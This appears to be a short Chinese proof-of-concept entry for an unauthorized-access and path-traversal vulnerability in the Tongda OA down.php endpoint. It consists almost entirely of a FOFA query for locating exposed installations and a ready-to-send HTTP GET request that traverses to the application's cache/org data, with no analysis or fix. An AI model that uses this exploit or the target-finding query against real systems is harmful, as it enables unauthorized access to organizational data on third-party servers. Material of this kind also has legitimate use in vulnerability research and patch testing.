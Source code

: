# 通达OA down.php接口存在未授权访问漏洞


## 通达OA down.php接口存在未授权访问漏洞

## fofa
```
app="TDXK-通达OA"
```

## poc

```
http://127.0.0.1/inc/package/down.php?id=../../../cache/org

GET /inc/package/down.php?id=../../../cache/org HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```


